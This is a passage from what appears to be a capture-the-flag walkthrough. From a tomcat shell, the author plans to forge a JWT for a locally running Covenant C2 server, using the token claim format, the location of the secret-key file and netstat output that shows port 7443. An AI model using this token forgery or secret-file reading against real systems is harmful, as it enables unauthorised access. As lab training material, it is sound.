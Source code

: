 ### Covenant Settings

It is said that this endpoint will interact with a Covenant C2 which explains the directory earlier! Also, it is said that for Covenant access you can use a JWTKey to generate a token with the following format:

```json
{
	"sub": "USER",
	"jti": "USER",
	"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "UID",
	"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "User",
	"exp": 100000000,
	"iss": "Covenant",
	"aud": "Covenant"
}
```

Now we just need to find the JWTKey and the Covenant service itself. We have access to the covenant directory and it is an Open-Source project so we can find the JWTKey in the following file: `/opt/Covenant/Data/appsettings.json`. In the contents we will find the key:

```json
{
	"JwtKey": "REDACTED",
	"JwtIssuer": "Covenant",
	"JwtAudience":  "Covenant",
	"JwtExpireDays":  100,
	"TrustedProxies": "127.0.0.1"
}
```

Also if we check our connections and open ports we will see that a service is running on port "7443" (Covenant port). This is our target!!

```bash-session
tomcat@walker:/opt$ netstat -tulpn

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:7443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      868/java            
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.90.185:68         0.0.0.0:* 
```
